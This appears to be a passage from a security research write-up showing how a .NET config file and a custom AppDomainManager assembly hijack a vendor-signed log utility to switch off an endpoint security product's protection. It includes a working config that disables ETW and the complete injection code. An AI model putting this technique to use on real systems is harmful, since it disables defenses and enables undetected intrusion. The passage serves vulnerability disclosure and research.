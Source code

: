 If you happen to have a VirusTotal enterprise subscription, it would be easier just to look for .NET binaries with the specific vendor in the signature tag and download the submitted files. Luckily we did not have to do any of that, as the vendor also installed a set of utilities to collect logs on the host in a separate folder, and one of them was written using the .NET framework.

To exploit that, we copied the log agent utility in an arbitrary folder, and placed the following file named LogAgent.exe.config next to it:

```
<configuration>
   <runtime>
  	<assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
     	<probing privatePath="C:\Test"/>
  	</assemblyBinding>
      <etwEnable enabled="false" />
      <appDomainManagerAssembly value="test, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null" />  
      <appDomainManagerType value="MyAppDomainManager" />  
   </runtime>
</configuration>
```

It is important that the name of the config file is the same as the executable that you are targeting, with a .config appended at the end, otherwise the attack will not work. 

Inspecting the configuration file above, it is possible to see that the config file specified that the application should load a new appdomain manager called `test`, which in this case is our custom malicious assembly. The code for the Test.cs file was following:

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.IO;
using System.IO.Compression;
using System.EnterpriseServices;
using System.Text;
using System.Threading.Tasks;

public sealed class MyAppDomainManager : AppDomainManager
{
   
	public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
	{   
    
   	    	 Program.Main(new string[] {});
   	 
	}
}


	public class Program
	{
 	 

    	public static void Main(string[] args)
    	{
   		  System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
   		  startInfo.FileName = @"C:\\Program Files\\STRANGETRINITY\\StrangeTrinity.exe";
   		 startInfo.Arguments = "unshield_from_authorized_process";
        	System.Diagnostics.Process.Start( startInfo);
    	}
	}
```
